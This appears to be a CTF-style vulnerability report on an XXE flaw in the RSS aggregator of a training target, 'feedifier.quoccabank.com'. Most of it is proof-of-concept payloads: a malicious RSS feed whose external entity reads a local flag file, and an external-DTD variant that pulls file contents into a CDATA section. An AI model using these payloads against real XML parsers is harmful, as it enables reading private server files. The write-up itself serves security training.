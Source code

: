 # XML external entities vulnerability in 'feedifier.quoccabank.com' leading to local file inclusion

## Report summary:

XXE vulnerability in the RSS aggregator functionality on  endpoints:

- 'https://v1.feedifier.quoccabank.com' 
- 'https://v2.feedifier.quoccabank.com'
- 'https://v3.feedifier.quoccabank.com'

leads to there being a local file inclusion vulnerability on all three of these end points.



## Severity : High

## Steps to reproduce

Host your own website to serve your own malicious RSS files.

//todo show setup of apache server

## Proof of concept 

### v1.feedifier

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "file:///flag_f32d46b748d303eb137c3e0329e9ba0b" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
    <title>The Blog</title>
    <link>http://example.com/</link>
    <description>A blog about things</description>
    <lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
    <item>
        <title>&xxe;</title>
        <link>https://google.com</link>
        <description>asdasd</description>
        <author>author@example.com</author>
        <pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
    </item>
</channel>
</rss>
```



### v2.feedifier

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title[<!ENTITY % load SYSTEM "<insert website here>/<external_dtd_path>.html"> %load;%bundle;] PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd" >
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
    <title>The Blog</title>
    <link>http://example.com/</link>
    <description>A blog about things</description>
    <lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
    <item>
        <title>&atak;</title>
        <link>https://google.com</link>
        <description>asdasd</description>
        <author>author@example.com</author>
        <pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
    </item>
</channel>
</rss>
```

External dtd file

```html
<!ENTITY % beg "<![CDATA[">
<!ENTITY % payload SYSTEM "file:///flag_39b5940d05a43ac6b4958bed87041f15">
<!ENTITY % end "]]>">
<!ENTITY atak "%beg;%payload;%end;">
```

